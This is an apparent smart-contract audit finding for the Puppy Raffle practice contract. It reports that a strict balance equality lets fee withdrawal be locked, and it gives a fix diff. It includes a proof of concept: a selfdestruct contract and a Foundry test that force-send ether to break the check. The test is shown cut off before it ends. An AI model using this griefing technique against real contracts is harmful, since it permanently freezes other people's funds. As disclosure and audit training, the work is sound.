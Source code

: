 ###  Permalinks
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol### L158

###  Impact
Fee funds can not be withdrawn from the smart contract.

###  Recommendations
Do not use strict equality, instead use an inequality.
```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+ require(address(this).balance >= uint256(totalFees), "PuppyRaffle: There are currently players active!"); 
```

###  Tools Used
* Manual Audit
* Foundry

###  POC
Create a new attacker contract below.

> Note: this is just a POC contract. It is beyond scope of this POC to ensure this attack contract is written securely and that funds are handled correctly once the contract has them.
```solidity
// SPDX-License-Identifer: MIT
pragma solidity ^0.7.6;

contract Destructible {
    receive() external payable {}

    function forceSendEthToContract(address payable fundsTo) external {
        selfdestruct(fundsTo);
    }
}
```

And the test function.
> Note: this test function is to be added to the existing test suite as it needs already existing components from there.
```solidity
import {Destructible} from "../src/Destructible.sol";
// ...
function testWithdrawFeesCanGetLocked() public playersEntered {
	// move blockchain forward so that the raffle can complete
	vm.warp(block.timestamp + duration + 1);
	vm.roll(block.number + 1);

	// set up the attacker
	address attacker = address(101);
	vm.deal(attacker, 1 ether);

	vm.startPrank(attacker);
	console.log("puppyRaffle balance before", address(puppyRaffle).balance);
	// send ether to attacking contract and then destroy that contract
	// this will send funds to the raffle contract, bypassing the check
	// on its only payable function
	Destructible destructible = new Destructible();
	address(destructible).call{value: 0.00001 ether}("");
	destructible.forceSendEthToContract(payable(address(puppyRaffle)));
	// raffle contract now has more funds than the `totalFees` state variable thinks
	console.log("puppyRaffle balance after", address(puppyRaffle).balance);
	vm.stopPrank();
```